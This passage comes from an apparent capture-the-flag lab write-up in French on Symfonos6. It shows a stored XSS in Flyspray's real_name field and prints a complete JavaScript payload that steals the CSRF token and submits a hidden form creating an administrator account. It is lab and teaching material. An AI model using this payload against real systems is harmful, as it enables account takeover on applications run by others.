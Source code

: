 Le champ vulnérable est celui du `real_name` quand on édite le profil d'un utilisateur. Si on y injecte du javascript il sera exécuté quand un utilisateur tombera sur un de nos messages.

Par conséquent j'ai créé un compte sur l'appli puis j'ai repris le code d'exploitation et l'ait placé dans un fichier `adduser.js` :

```js
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form" action="http://192.168.56.117/flyspray/index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

Ensuite j'ai édité le profil de mon utilisateur pour qu'il appelle mon code javascript :

![Injection JS code](https://raw.githubusercontent.com/devl00p/blog/main/images/vulnhub/symfonos6/xss_payload_injection.jpg)

Et finalement j'ai posté un commentaire sur l'issue. Cependant j'ai remarqué que le javasript nécessitait d'échapper un attribut HTML :

